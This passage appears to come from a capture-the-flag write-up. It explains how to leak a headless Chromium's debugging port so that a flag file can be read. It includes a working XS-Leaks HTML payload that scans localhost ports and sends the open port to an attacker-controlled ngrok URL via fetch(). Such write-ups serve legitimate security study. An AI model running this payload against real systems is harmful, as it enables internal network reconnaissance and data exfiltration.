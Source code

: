```javascript
setTimeout(async () => {
    try {
        await browser.close();
    } catch (err) {
        log('browser.close() failed:', err.message);
    }
}, seconds * 1000);
```

If we could leak the debugging port, then we could communicate with the Chromium instance to open a new page with the `file:///tmp/flag` URL, and read its contents.&#x20;

There are many ways to do this, but my first reaction was to do it through a common XS-Leaks technique. The idea is that if the port is closed, trying to load it as a resource would yield a Connection Refused error, triggering the `onerror` event handler. Otherwise, the `onload` event handler would be fired instead on successful loading.

```markup
<html>
    <body>
        <script>
            (async () => {
                const leak = async (url) => {
                    return new Promise((r) => {
                        let s = document.createElement('script')
                        s.src = url
                        s.onload = (e) => {
                            e.target.remove()
                            return r(0)
                        }
                        s.onerror = (e) => {
                            e.target.remove()
                            return r(1)
                        }
                        document.head.appendChild(s)
                    })
                }
                
                for (let i = 0; i < 2000; i++) {
                    let port = 9000 + i;
                    let res = await leak(`http://localhost:${port}/`)
                    
                    if (res == 0) {
                        console.log(`Port ${port} is open`)
                        try {
                            fetch(`http://986d-42-60-68-174.ngrok.io/leak?port=${port}`)
                        }
                        catch {}
                        break
                    }
                }
            })();
        </script>
    </body>
</html>
```
